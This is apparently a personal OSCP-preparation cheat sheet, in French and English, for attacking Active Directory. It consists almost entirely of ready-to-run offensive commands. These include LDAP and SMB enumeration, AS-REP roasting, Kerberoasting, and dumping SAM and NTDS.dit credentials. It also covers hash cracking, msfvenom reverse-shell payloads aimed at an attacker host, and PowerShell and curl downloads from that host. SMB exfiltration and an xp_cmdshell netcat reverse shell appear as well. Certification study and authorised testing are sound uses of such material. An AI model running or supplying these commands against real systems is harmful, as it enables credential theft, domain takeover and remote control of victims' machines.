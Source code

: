 # 🏅 OSCP Active Directory Cheat Sheet

{% hint style="success" %}
Ce document regroupe tout ce que j’ai appris au travers des box et des cours de préparation aux techniques d’exploitation Active Directory. Il reflète mon expérience personnelle et n’engage que moi. Je ne couvre pas ici les techniques les plus avancées, mais vous pouvez vous tourner vers d’autres ressources comme [The Hacker Recipes](https://www.thehacker.recipes/) pour approfondir le sujet.
{% endhint %}

***

## **🛡️ Active Directory Cheat Sheet**

### 📌 Reconnaissance & Énumération

<details>

<summary>🔍LDAP <strong>Enumeration</strong></summary>

*   **Énumération LDAP anonyme**

    ```bash
    ldapsearch -v -x -b "DC=<DOMAIN>,DC=com" -H "ldap://<IP>" "(objectclass=*)"
    ```
*   **Énumération LDAP auth (LAPS Password)**

    ```bash
    ldapsearch -x -H "ldap://<IP>" -D "<DOMAIN>\<USER>" -w "<PASSWORD>" -b "DC=<DOMAIN>,DC=com" "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd
    ```
*   **Énumération with Windapsearch**

    ```bash
    ./windapsearch.py --dc-ip <IP> -u "" -U
    ```
*   **Extraction of users and descriptions via NetExec**

    ```bash
    #users
    nxc ldap $ip -u $user -p $password --users
    #desc
    nxc ldap "<DC>" -d "<DOMAIN>" -u "<USER>" -p "<PASSWORD>" -M get-desc
    ```
*   **Testing if an account exists without kerberos protocol**

    ```bash
    nxc ldap 192.168.1.0/24 -u users.txt -p '' -k
    #mode 18200 hashcat
    ```
*   **Asreproasting**

    ```bash
    nxc ldap 192.168.0.104 -u harry -p '' --asreproast output.txt
    ```
*   **Kerberoasting**

    ```bash
    nxc ldap 192.168.0.104 -u harry -p pass --kerberoasting output.txt
    #mode 13100 hashcat
    ```
*   **Bloodhound collector**

    ```bash
    nxc ldap <ip> -u user -p pass --bloodhound --collection All
    ```

Rest later

</details>

<details>

<summary>📂 SMB Enumeration</summary>

*   **List SMB Shares and users**

    ```bash
    crackmapexec smb <IP> --shares -u <USER> -p <PASSWORD> --users
    # command to get clean users.txt -> awk '{print $5}' > users.txt
    ```
*   **Brute force RID for user enumeration**

    ```bash
    nxc smb <IP> -u '' -p '' --rid-brut
    ```
*   **List SMB shares anonymous**

    ```bash
    smbclient -L //<IP> -N
    ```
*   **Dumping all files in the share**

    ```bash
    nxc smb 10.10.10.10 -u 'user' -p 'pass' -M spider_plus -o DOWNLOAD_FLAG=True
    ```
*   **Dump SAM with admin privileges (--local-auth possible)**

    ```bash
    nxc smb 192.168.1.0/24 -u UserName -p 'PASSWORDHERE' --sam
    ```
*   **Dump NTDS.dit with DomainAdmin or Local Admin**

    ```bash
    nxc smb 192.168.1.100 -u UserName -p 'PASSWORDHERE' -M ntdsutil
    ```

There are plenty of Credentials discovery commands, no need to put everything, commands here: [https://www.netexec.wiki/smb-protocol/obtaining-credentials](https://www.netexec.wiki/smb-protocol/obtaining-credentials)

</details>

####

#### 🎯 **Droits Windows (Privilege Escalation)**

* **SeBackupPrivilege** → Lire des fichiers normalement inaccessibles
* **SeRestorePrivilege** → Écraser des fichiers protégés
* **SeImpersonatePrivilege** → Exploitable avec JuicyPotato pour devenir SYSTEM
* **SeLoadDriverPrivilege** → Charger des drivers malveillants

***

### 💥 Cracking des Hashes

*   **NTLM**

    ```bash
    hashcat -m 1000 -a 3 hash.txt
    ```
*   **NetNTLMv1**

    ```bash
    hashcat -m 5500 -a 3 hash.txt
    ```
*   **NetNTLMv2**

    ```bash
    john --format=netntlmv2 hash.txt
    ```
*   **SPN Hash (Kerberoasting)**

    ```bash
    hashcat -m 13100 -a 0 spn.txt rockyou.txt
    ```

***

### 🚀 Payloads & Reverse Shells

*   **Windows Meterpreter**

    ```bash
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ATTACKER_IP> LPORT=<PORT> -f exe > shell.exe
    ```
*   **Windows Shell Staged**

    ```bash
    msfvenom -p windows/shell/reverse_tcp LHOST=<ATTACKER_IP> LPORT=<PORT> -f exe > shell.exe
    ```
*   **PowerShell Reverse Shell**

    ```bash
    msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<ATTACKER_IP> LPORT=<PORT> -f psh-cmd
    ```

***

### 🔄 Transfert de Fichiers

*   **Serveur HTTP Python**

    ```bash
    python3 -m http.server 80
    ```
*   **Télécharger un fichier via PowerShell**

    ```powershell
    powershell -c "Invoke-WebRequest -Uri 'http://<ATTACKER_IP>/file.exe' -OutFile 'C:\Users\Public\file.exe'"
    ```
*   **Exfiltration via SMB**

    ```bash
    smbclient //<ATTACKER_IP>/SHARE -U "USER" -c "put file.exe"
    ```

***

### 🏴‍☠️ Post-Exploitation

*   **Changement du mot de passe via RPC**

    ```bash
    setuserinfo <USER> 23 'NewPassword123!'
    ```
*   **Utilisation d’un ticket Kerberos pour MSSQL**

    ```bash
    export KRB5CCNAME=$PWD/Administrator.ccache
    ```
*   **Téléchargement de Netcat via MSSQL**

    ```bash
    xp_cmdshell "curl http://<ATTACKER_IP>/nc.exe -o c:\temp\nc.exe"
    ```
*   **Reverse Shell via MSSQL**

    ```bash
    xp_cmdshell "c:\temp\nc.exe <ATTACKER_IP> <PORT> -e cmd.exe"
    ```
